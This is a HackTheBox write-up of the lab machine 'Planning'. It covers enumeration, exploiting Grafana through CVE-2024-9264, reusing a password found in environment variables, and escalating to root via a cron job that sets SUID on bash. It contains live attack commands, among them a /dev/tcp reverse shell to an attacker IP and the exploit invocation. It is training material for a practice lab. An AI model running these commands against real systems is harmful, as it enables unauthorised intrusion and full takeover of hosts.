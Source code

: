 ```yaml
---
title: "HackTheBox - Planning"
author: Nasrallah
description: ""
date: 025-10-01 07:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, web, ssh, tunneling, cronjobs, cve, sqli, rce]
img_path: /assets/img/hackthebox/machines/planning
image:
    path: planning.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[Planning](https://app.hackthebox.com/machines/planning) is an easy difficulty Linux machine that features web enumeration, subdomain fuzzing, and exploitation of a vulnerable `Grafana` instance to [CVE-2024-9264](https://nvd.nist.gov/vuln/detail/CVE-2024-9264). After gaining initial access to a Docker container, an exposed password enables lateral movement to the host system due to password reuse. Finally, a custom cron management application with `root` privileges can be leveraged to achieve full system compromise.

Credentials provided for the box: `admin / 0D5oT70Fq13EvB5r`

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.23.1                                                               
Host is up (0.52s latency).                                                                    
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION                                                                   
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                                 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)                 
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.14 seconds
```

We have ssh on port 22 and nginx http serve on port 80 redirecting to the domain planning.htb, let's add that to /etc/hosts file.

### Web

Let's check the website on port 80.

![website](1.png)

Nothing looks interesting in the website. I'll run a subdomain scan using ffuf.

```terminal
ffufnames planning.htb -ac                                                            
                                                                                               
        /'___\  /'___\           /'___\                                                        
       /\ \__/ /\ \__/  __  __  /\ \__/                                                        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                       
         \ \_\   \ \_\  \ \____/  \ \_\                                                        
          \/_/    \/_/   \/___/    \/_/                                                        
                                                                                               
       v2.1.0-dev                              
________________________________________________                                               
                                                                                               
 :: Method           : GET                                                                     
 :: URL              : http://planning.htb                                                     
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt                    
 :: Header           : Host: FUZZ.planning.htb 
 :: Follow redirects : false                                                                   
 :: Calibration      : true                                                                    
 :: Timeout          : 10                                                                      
 :: Threads          : 40                                                                      
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                                                                   
________________________________________________                                               
                                                                                               
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 119ms]
```

Found `grafana`, I'll add that to my hosts file and navigate to it.

![grafana](2.png)

We got the login page of grafana, here we can use the credentials provided with the box to login.

![login](3.png)

## **Foothold**

The version of grafana is 11.0.0, searching that on google I found it vulnerable to SQL Injection that leads to file read and/or command execution [CVE-2024-9264](https://nvd.nist.gov/vuln/detail/CVE-2024-9264).

I'll use this [exploit](https://github.com/nollium/CVE-2024-9264) to get command execution.

```terminal
[★]$ python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r http://grafana.planning.htb/ -c 'id'                                                 
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: id
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('id >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
uid=0(root) gid=0(root) groups=0(root)
```

For a reverse shell, I'll use the following command.

```bash
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r http://grafana.planning.htb/ -c 'bash -c "bash -i >& /dev/tcp/10.10.16.33/9001 0>&1"'
```

![revshell](4.png)

## **Privilege Escalation**

Checking the environment variable we find the password of user enzo.

```bash
root@7ce659d667d7:~/conf# env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
[SNIP]
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
[SNIP]
```

We can use the password to ssh as user enzo.

```terminal
[★]$ ssh enzo@planning.htb 
enzo@planning.htb's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)
[SNIP]
Last login: Tue Sep 30 11:06:24 2025 from 10.10.16.50
enzo@planning:~$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
```

Checking open ports using nestat we find port 8000 listening locally.

```terminal
enzo@planning:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:37729         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -   
```

Let's forward the port using ssh.

```terminal
ssh enzo@planning.htb -L 8000:127.0.0.1:8000
```

Now let's navigate to `127.0.0.1:8000`

![auth](5.png)

We got a prompt to authenticate, I tried the credentials we found so far but nothing worked.

Digging into the system I found a file at `/opt/crontabs/crontab.db` with credentials inside it.

```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

I managed to login with `root:P4ssw0rdS0pRi0T3c`

![loggedin](6.png)

In this site we can create cronjob.

I'll create a cronjob that makes a copy of bash and give it SUID permissions.

```terminal
cp /bin/bash /tmp/bash && chmod +s /tmp/bash
```

![suid](7.png)

I'll save the cronjob and click run now to execute it and then check the /tmp directory.

![root](8.png)

The binary was created successfully, we run `/tmp/bash -p` to get a root shell.

## **References**

<https://nvd.nist.gov/vuln/detail/CVE-2024-9264>

<https://github.com/nollium/CVE-2024-9264>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

